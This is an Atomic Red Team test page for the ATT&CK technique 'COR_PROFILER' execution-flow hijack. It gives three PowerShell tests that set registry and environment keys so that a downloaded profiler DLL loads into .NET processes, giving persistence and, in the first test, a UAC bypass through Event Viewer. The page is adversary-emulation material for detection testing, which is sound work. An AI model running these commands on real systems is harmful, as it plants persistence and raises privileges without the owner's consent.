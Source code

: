 # T1574.012 - Hijack Execution Flow: COR_PROFILER
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1574/012)
<blockquote>

Adversaries may leverage the COR_PROFILER environment variable to hijack the execution flow of programs that load the .NET CLR. The COR_PROFILER is a .NET Framework feature which allows developers to specify an unmanaged (or external of .NET) profiling DLL to be loaded into each .NET process that loads the Common Language Runtime (CLR). These profilers are designed to monitor, troubleshoot, and debug managed code executed by the .NET CLR.(Citation: Microsoft Profiling Mar 2017)(Citation: Microsoft COR_PROFILER Feb 2013)

The COR_PROFILER environment variable can be set at various scopes (system, user, or process) resulting in different levels of influence. System and user-wide environment variable scopes are specified in the Registry, where a [Component Object Model](https://attack.mitre.org/techniques/T1559/001) (COM) object can be registered as a profiler DLL. A process scope COR_PROFILER can also be created in-memory without modifying the Registry. Starting with .NET Framework 4, the profiling DLL does not need to be registered as long as the location of the DLL is specified in the COR_PROFILER_PATH environment variable.(Citation: Microsoft COR_PROFILER Feb 2013)

Adversaries may abuse COR_PROFILER to establish persistence that executes a malicious DLL in the context of all .NET processes every time the CLR is invoked. The COR_PROFILER can also be used to elevate privileges (ex: [Bypass User Account Control](https://attack.mitre.org/techniques/T1548/002)) if the victim .NET process executes at a higher permission level, as well as to hook and [Impair Defenses](https://attack.mitre.org/techniques/T1562) provided by .NET processes.(Citation: RedCanary Mockingbird May 2020)(Citation: Red Canary COR_PROFILER May 2020)(Citation: Almond COR_PROFILER Apr 2019)(Citation: GitHub OmerYa Invisi-Shell)(Citation: subTee .NET Profilers May 2017)

</blockquote>

## Atomic Tests

- [Atomic Test #1 - User scope COR_PROFILER](#atomic-test-1---user-scope-cor_profiler)

- [Atomic Test #2 - System Scope COR_PROFILER](#atomic-test-2---system-scope-cor_profiler)

- [Atomic Test #3 - Registry-free process scope COR_PROFILER](#atomic-test-3---registry-free-process-scope-cor_profiler)


<br/>

## Atomic Test #1 - User scope COR_PROFILER
Creates user scope environment variables and CLSID COM object to enable a .NET profiler (COR_PROFILER).
The unmanaged profiler DLL (`T1574.012x64.dll`) executes when the CLR is loaded by the Event Viewer process.
Additionally, the profiling DLL will inherit the integrity level of Event Viewer bypassing UAC and executing `notepad.exe` with high integrity.
If the account used is not a local administrator the profiler DLL will still execute each time the CLR is loaded by a process, however,
the notepad process will not execute with high integrity.

Reference: https://redcanary.com/blog/cor_profiler-for-persistence/

**Supported Platforms:** Windows


**auto_generated_guid:** 9d5f89dc-c3a5-4f8a-a4fc-a6ed02e7cb5a





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file_name | unmanaged profiler DLL | path | PathToAtomicsFolder&#92;T1574.012&#92;bin&#92;T1574.012x64.dll|
| clsid_guid | custom clsid guid | string | {09108e71-974c-4010-89cb-acf471ae9e2c}|


#### Attack Commands: Run with `powershell`! 


```powershell
Write-Host "Creating registry keys in HKCU:Software\Classes\CLSID\#{clsid_guid}" -ForegroundColor Cyan
New-Item -Path "HKCU:\Software\Classes\CLSID\#{clsid_guid}\InprocServer32" -Value "#{file_name}" -Force | Out-Null
New-ItemProperty -Path HKCU:\Environment -Name "COR_ENABLE_PROFILING" -PropertyType String -Value "1" -Force | Out-Null
New-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER" -PropertyType String -Value "#{clsid_guid}" -Force | Out-Null
New-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER_PATH" -PropertyType String -Value "#{file_name}" -Force | Out-Null
Write-Host "executing eventvwr.msc" -ForegroundColor Cyan
START MMC.EXE EVENTVWR.MSC
```

#### Cleanup Commands:
```powershell
Remove-Item -Path "HKCU:\Software\Classes\CLSID\#{clsid_guid}" -Recurse -Force -ErrorAction Ignore 
Remove-ItemProperty -Path HKCU:\Environment -Name "COR_ENABLE_PROFILING" -Force -ErrorAction Ignore | Out-Null
Remove-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER" -Force -ErrorAction Ignore | Out-Null
Remove-ItemProperty -Path HKCU:\Environment -Name "COR_PROFILER_PATH" -Force -ErrorAction Ignore | Out-Null
```



#### Dependencies:  Run with `powershell`!
##### Description: "#{file_name}" must be present
##### Check Prereq Commands:
```powershell
if (Test-Path "#{file_name}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{file_name}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://rangegogs.cnd.ca.gov/Range/atomic-red-team/raw/master/atomics/T1574.012/bin/T1574.012x64.dll" -OutFile "#{file_name}"
```




<br/>
<br/>

## Atomic Test #2 - System Scope COR_PROFILER
Creates system scope environment variables to enable a .NET profiler (COR_PROFILER). System scope environment variables require a restart to take effect.
The unmanaged profiler DLL (T1574.012x64.dll`) executes when the CLR is loaded by any process. Additionally, the profiling DLL will inherit the integrity
level of Event Viewer bypassing UAC and executing `notepad.exe` with high integrity. If the account used is not a local administrator the profiler DLL will
still execute each time the CLR is loaded by a process, however, the notepad process will not execute with high integrity.

Reference: https://redcanary.com/blog/cor_profiler-for-persistence/

**Supported Platforms:** Windows


**auto_generated_guid:** f373b482-48c8-4ce4-85ed-d40c8b3f7310





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file_name | unmanaged profiler DLL | path | PathToAtomicsFolder&#92;T1574.012&#92;bin&#92;T1574.012x64.dll|
| clsid_guid | custom clsid guid | string | {09108e71-974c-4010-89cb-acf471ae9e2c}|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Write-Host "Creating system environment variables" -ForegroundColor Cyan
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_ENABLE_PROFILING" -PropertyType String -Value "1" -Force | Out-Null
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_PROFILER" -PropertyType String -Value "#{clsid_guid}" -Force | Out-Null
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_PROFILER_PATH" -PropertyType String -Value "#{file_name}" -Force | Out-Null
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_ENABLE_PROFILING" -Force -ErrorAction Ignore | Out-Null
Remove-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_PROFILER" -Force -ErrorAction Ignore | Out-Null
Remove-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -Name "COR_PROFILER_PATH" -Force -ErrorAction Ignore | Out-Null
```



#### Dependencies:  Run with `powershell`!
##### Description: "#{file_name}" must be present
##### Check Prereq Commands:
```powershell
if (Test-Path "#{file_name}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{file_name}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://rangegogs.cnd.ca.gov/Range/atomic-red-team/raw/master/atomics/T1574.012/bin/T1574.012x64.dll" -OutFile "#{file_name}"
```




<br/>
<br/>

## Atomic Test #3 - Registry-free process scope COR_PROFILER
Creates process scope environment variables to enable a .NET profiler (COR_PROFILER) without making changes to the registry. The unmanaged profiler DLL (`T1574.012x64.dll`) executes when the CLR is loaded by PowerShell.

Reference: https://redcanary.com/blog/cor_profiler-for-persistence/

**Supported Platforms:** Windows


**auto_generated_guid:** 79d57242-bbef-41db-b301-9d01d9f6e817





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file_name | unamanged profiler DLL | path | PathToAtomicsFolder&#92;T1574.012&#92;bin&#92;T1574.012x64.dll|
| clsid_guid | custom clsid guid | string | {09108e71-974c-4010-89cb-acf471ae9e2c}|


#### Attack Commands: Run with `powershell`! 


```powershell
$env:COR_ENABLE_PROFILING = 1
$env:COR_PROFILER = '#{clsid_guid}'
$env:COR_PROFILER_PATH = '"#{file_name}"'
POWERSHELL -c 'Start-Sleep 1'
```

#### Cleanup Commands:
```powershell
$env:COR_ENABLE_PROFILING = 0
$env:COR_PROFILER = ''
$env:COR_PROFILER_PATH = ''
```



#### Dependencies:  Run with `powershell`!
##### Description: "#{file_name}" must be present
##### Check Prereq Commands:
```powershell
if (Test-Path "#{file_name}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{file_name}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://rangegogs.cnd.ca.gov/Range/atomic-red-team/raw/master/atomics/T1574.012/bin/T1574.012x64.dll" -OutFile "#{file_name}"
```




<br/>
